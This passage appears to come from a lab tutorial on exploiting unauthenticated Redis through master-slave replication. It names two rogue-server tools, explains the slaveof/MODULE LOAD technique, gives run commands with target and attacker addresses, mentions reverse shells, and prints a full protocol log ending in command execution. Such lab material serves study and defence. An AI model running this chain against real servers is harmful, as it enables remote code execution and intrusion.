 Directly execute commands in the corresponding folder to pull the corresponding vulnerability environment: `sudo docker-compose up -d`.

<div align=center><img src="./images/13.png"></div>

## Vulnerability Exploit Tools
### redis-rogue-server
Download address:
 - [Download address](https://github.com/n0b0dyCN/redis-rogue-server)
  
Tool Principles:
 - The principle of this tool is to first create a malicious `Redis` server as a Redis` host, which can respond to the responses of other `Redis` slaves that connect it. After having a malicious `Redis` host, it will remotely connect to the target `Redis` server and set the target `Redis` server to the malicious `Redis` slave through the `slaveof` command. Then synchronize the `exp` on the malicious `Redis` host to the `Reids` slave, and set the `dbfilename` to `exp.so`. Finally, control the `Redis` slave loading module to execute system commands. It should be noted that this tool cannot enter the `Redis` password for `Redis` authentication, and can only be used when the target has an unauthorized access vulnerability.

How to use:

```bash
python3 redis-rogue-server.py --rhost 172.21.0.2 --lhost 192.168.249.143
```

After successful execution, you can choose to obtain an interactive shell (interactive shell) or rebound shell (reserve shell):

<div align=center><img src="./images/14.png"></div>

<div align=center><img src="./images/15.png"></div>

### Redis Rogue Server
Download address:
 - [Download address](https://github.com/vulhub/redis-rogue-getshell)

How to use:

```bash
➜ python3 redis-master.py -r target-ip -p 6379 -L local-ip -P 8888 -f RedisModulesSDK/exp.so -c "id"

>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$13\r\n*.*.*.*\r\n$4\r\n8888\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$6\r\nexp.so\r\n'
>> receive data: b'+OK\r\n'
>> receive data: b'PING\r\n'
>> receive data: b'REPLCONF listening-port 6379\r\n'
>> receive data: b'REPLCONF capa eof capa psync2\r\n'
>> receive data: b'PSYNC 7cce9210b3ad3f54043ce1965cda506bd26b0224 1\r\n'
>> send data: b'*3\r\n$6\r\nMODULE\r\n$4\r\nLOAD\r\n$8\r\n./exp.so\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*3\r\n$7\r\nSLAVEOF\r\n$2\r\nNO\r\n$3\r\nONE\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*4\r\n$6\r\nCONFIG\r\n$3\r\nSET\r\n$10\r\ndbfilename\r\n$8\r\ndump.rdb\r\n'
>> receive data: b'+OK\r\n'
>> send data: b'*2\r\n$11\r\nnsystem.exec\r\n$2\r\nid\r\n'
>> receive data: b'$49\r\n\x08uid=999(redis) gid=999(redis) groups=999(redis)\n\r\n'
uid=999(redis) gid=999(redis) groups=999(redis)

>> send data: b'*3\r\n$6\r\nMODULE\r\n$6\r\nUNLOAD\r\n$6\r\nNsystem\r\n'
>> receive data: b'+OK\r\n'
```
